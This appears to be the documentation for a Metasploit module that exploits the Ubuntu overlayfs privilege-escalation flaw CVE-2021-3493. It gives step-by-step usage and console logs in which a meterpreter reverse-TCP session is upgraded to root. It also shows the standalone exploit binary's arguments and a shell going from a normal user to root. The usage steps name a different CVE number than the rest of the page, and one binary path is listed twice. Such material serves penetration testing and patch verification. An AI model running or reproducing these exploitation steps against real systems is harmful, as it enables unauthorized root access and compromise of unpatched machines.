 ## Vulnerable Application

This module exploits a vulnerability in Ubuntu's implementation of overlayfs.  The
vulnerability is the result of failing to verify the ability of a user to set the
attributes in a running executable. Specifically, when Overlayfs sends the set attributes
data to the underlying file system via `vfs_setxattr`, it fails to first verify the data
by calling `cap_convert_nscap`.
This vulnerability was patched by moving the call to `cap_convert_nscap`
into the `vfs_setxattr` function that sets the attribute, forcing verification every time the
`vfs_setxattr` is called rather than trusting the data was already verified.

### Install

Install Ubuntu from version 14.04LTS to 20.04 LTS

## Verification Steps

1. Make an Ubuntu
1. Create a meterpreter or shell payload and upload it to the Ubuntu target
1. Set up a handler for the payload
1. Launch the payload as a regular user on the Ubuntu Target and connect the handler
1. Do: `use exploit/linux/local/cve_2021_3943_overlayfs`
1. Do: `set payload <payload>`
1. Do: `set lhost <ip>`
1. Do: `set [r|l]port <port>`
1. Do: `run`
1. You should get a root session

## Options

### COMPILE

[Auto|True|False] This selects the binary to use.  True will upload the source code and perform
compilation on target, False will upload a precompiled binary.  AUTO will favor compiling on target
but will fall back to the precompiled option if a compiler cannot be found.

### WritableDir
This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

### Ubuntu 20.04.0 x64

```
msf6 exploit(linux/local/cve_2021_3493_overlayfs) > 
[*] Sending stage (3012548 bytes) to 192.168.132.138
[*] Meterpreter session 9 opened (192.168.135.197:4567 -> 192.168.132.138:47988 ) at 2021-11-09 11:34:44 -0600

msf6 exploit(linux/local/cve_2021_3493_overlayfs) > sessions -i 9
[*] Starting interaction with 9...

meterpreter > sysinfo
Computer     : ubuntu-20.04.0
OS           : Ubuntu 20.04 (Linux 5.4.0-26-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: msfuser
meterpreter > background
[*] Backgrounding session 9...
msf6 exploit(linux/local/cve_2021_3493_overlayfs) > set session 9
session => 9
msf6 exploit(linux/local/cve_2021_3493_overlayfs) > run

[*] Started reverse TCP handler on 192.168.135.197:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version array: ["5.4.0", "26", "generic"]
[*] major_version: 5.4.0
[*] minor_version: 26
[+] The target appears to be vulnerable.
[*] Creating directory /tmp/.wH0xRHji
[*] /tmp/.wH0xRHji created
[*] Dropping pre-compiled exploit on system...
[*] Writing '/tmp/.wH0xRHji/.PsJzzn' (17840 bytes) ...
[*] Writing '/tmp/.wH0xRHji/.Doeg4dSW1G' (250 bytes) ...
[*] Launching exploit...
[*] Running: /tmp/.wH0xRHji/.PsJzzn /tmp/.wH0xRHji/.Doeg4dSW1G /tmp/.wH0xRHji 6PFbO1d
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 192.168.132.138
[+] Deleted /tmp/.wH0xRHji/.PsJzzn
[*] Meterpreter session 10 opened (192.168.135.197:4444 -> 192.168.132.138:41814 ) at 2021-11-09 11:35:05 -0600
[*] 

meterpreter > getuid
Server username: root
```

### Included Binaries
The binaries used by this exploit `data/exploits/CVE-2021-3493/cve_2021_3493.x64.elf` and
`data/exploits/CVE-2021-3493/cve_2021_3493.x64.elf` can and be used separately from
metasploit.  The parameters required are:
```
    // argv[1] = The payload or executable you wish to launch
    // argv[2] = A directory to store the files and directories created when the exploit runs
    // argv[3] = A random string that is used to create directory names.
```
```
msfuser@ubuntu-18041:~$ id
uid=1000(msfuser) gid=1000(msfuser) groups=1000(msfuser),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
msfuser@ubuntu-18041:~$ mkdir /tmp/test
msfuser@ubuntu-18041:~$ ./cve_2021_3493.x64.elf /bin/bash /tmp/test abcdef
root@ubuntu-18041:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),1000(msfuser)
root@ubuntu-18041:~# 
```

